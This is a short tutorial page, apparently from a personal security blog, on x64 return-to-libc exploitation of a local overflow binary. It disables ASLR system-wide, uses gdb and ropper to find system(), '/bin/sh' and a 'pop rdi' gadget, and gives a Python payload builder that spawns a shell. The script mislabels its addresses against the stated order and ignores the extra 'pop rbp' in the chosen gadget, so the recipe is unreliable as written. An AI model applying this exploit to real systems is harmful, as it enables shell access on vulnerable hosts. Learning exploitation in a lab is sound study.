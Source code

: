 ```yaml
---
layout: default
title: X64-Ret2Libc
---
```


<h2>{{ page.title }}</h2>

Precondition 

1. Disable ASLR: echo 0 > /proc/sys/kernel/randomize_va_space
2. The directory storing libc.so is known.

0x1 If "-z execstack" is off
---
Since the stack is not executable, we need to find gadgets(e.g. pop rdi; ret).

0x2 Address needed
---
1. Address 'a' of system() function
```
(gdb) b main     /*set breakpoint at main funtion*/
(gdb) run bof    /*execute the target program*/
(gdb) p system   /*print address of system()*/
```

2. Address 'b' of string “/bin/sh”
```
(gdb) p __libc_start_main
(gdb) find 0x7ffff7a5b1c0, +2200000, "/bin/sh" /*0x7ffff7a5b1c0 is the address of __libc_start_main*/
(gdb) x/s 0x7ffff7b9c879 /*0x7ffff7b9c879 is the address returned by last line, return value for this line should be "/bin/sh"*/
```

3. Address 'c' of “pop rdi;ret” (in x64 RDI, RSI, RDX, RCX, R8 and R9 stores arguments)
```
ropper --file /lib/x86_64-linux-gnu/libc-2.24.so --search "pop rdi" /*search gadgets*/
0x000000000002079b: pop rdi; pop rbp; ret;  /*0x2079b is the offset of the gadgets in libc.so*/
```

4. payload is trash + c + b + a

0x4 Python code
---
```
#!/usr/bin/env python
from struct import *

buf = ""
buf += "A"*104                        # junk
buf += pack("<Q", a)                  # pop rdi; ret;
buf += pack("<Q", b)                  # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", c)                  # address of system()

f = open("in.txt", "w")
f.write(buf)
```

<h2>{{ page.date | date_to_string }}</h2>
